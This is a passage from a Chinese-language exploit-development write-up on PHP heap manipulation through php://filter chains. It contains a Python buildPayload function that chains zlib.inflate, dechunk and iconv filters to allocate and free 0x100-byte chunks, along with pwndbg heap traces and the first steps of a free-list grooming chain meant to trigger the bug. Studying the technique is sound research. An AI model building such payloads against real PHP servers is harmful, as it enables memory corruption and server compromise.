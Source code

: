 从上述过程可以看出，我们成功地申请到了一个大小为0x100的堆。  
#### 2.3.3.2 释放一个长度为0x100大小的堆  
  
buildPayload  
函数的编写可以参考以下代码：  
```
def buildPayload() -> str:    heapSize = 0x100    step1 = b"A" * 0x10    step1 = chunked_chunk(step1, heapSize)    step1 = compressed_bucket(step1)    pages = (        step1    )    resource = compress(pages)    resource = base64.b64encode(resource)    resource = f"data:text/plain;base64,{resource.decode()}"    filters = [        # zlib解压缩        "zlib.inflate",        # 让php分配0x100大小的堆        "dechunk",        "convert.iconv.latin1.latin1",        # 释放0x100大小的堆        "dechunk",        "convert.iconv.latin1.latin1"    ]    filters = "|".join(filters)    path = f"php://filter/read={filters}/resource={resource}"    return path
```  
  
前面四步和上面一样，我们从第二个dechunk  
执行完开始，gdb过程如下所示：  
```
pwndbg> p *brig_inp.head$1 = {  next = 0x0,  prev = 0x0,  brigade = 0x7fffffffa7a0,  buf = 0x7ffff5288100 'A' <repeats 16 times>, '0' <repeats 184 times>...,  buflen = 16,  own_buf = 1 '\001',  is_persistent = 0 '\000',  refcount = 1}p $2.free_slot[15]$3 = (zend_mm_free_slot *) 0x7ffff5288200
```  
  
在第二个dechunk  
执行完毕后，buf仍然是长度为0x100的堆，但buflen  
被修改为了0x10。接着我们把程序停在执行完php_iconv_stream_filter_do_filter  
函数之后，再查看堆信息，gdb过程如下所示：  
```
pwndbg> p *brig_outp.head$1 = {  next = 0x0,  prev = 0x0,  brigade = 0x7fffffffa7b0,  buf = 0x7ffff527e060 'A' <repeats 16 times>, "\200\340'\365\377\177",  buflen = 16,  own_buf = 1 '\001',  is_persistent = 0 '\000',  refcount = 1}pwndbg> p $2.free_slot[15]$3 = (zend_mm_free_slot *) 0x7ffff5288100
```  
  
从上面的结果可以看出，大小为0x100的堆(0x7ffff5288100  
)已经被释放并且被放入free_slot  
当中。  
#### 2.3.3.3 触发漏洞  
  
完成了上面两步的调试过程，我们已经可以像做一道CTF的堆题一样，随意的控制malloc  
和free  
。  
  
现在我们来尝试按照上面分析CTF题的步骤来构造触发漏洞的利用链。  
  
经过一番调试分析，我构造的利用链步骤如下：  
1. 最开始0x100大小的堆的free链表为：0x7ffff5288100->0x200->0x300->0x400->0x500...  
。  
  
1. 申请三个堆后，free链表为：0x7ffff5288400->0x500->0x600...  
。  
  
1. 把这三个堆释放后，free链表为：0x7ffff5288300->0x200->0x100->0x400...  
。  
  
1. 再次申请两个堆，地址为 0x7ffff5288300  
，0x7ffff5288200  
。  
  